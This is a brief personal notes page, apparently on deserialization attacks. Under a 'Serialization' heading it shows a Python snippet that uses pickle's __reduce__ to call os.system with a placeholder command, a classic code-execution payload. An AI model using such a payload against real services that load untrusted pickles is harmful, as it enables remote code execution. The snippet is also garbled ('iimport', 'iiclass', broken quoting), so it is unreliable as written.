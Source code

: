 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<li class="">
<a href="serialization-python">Python</a>
  <fieldset>
    <legend>Python Serialization</legend>
      <pre><code>
        iimport cPickle
        iimport os
        
        iiclass Blah(object):
          def __reduce__(self):
            return (os.system,('command'.))'
        
        
        b = Blah()
        print cPickle.dumps(b)
      </code></pre>
  </fieldset>



<a href="serialization-in-jenkins">Jenkins</a>

</li>



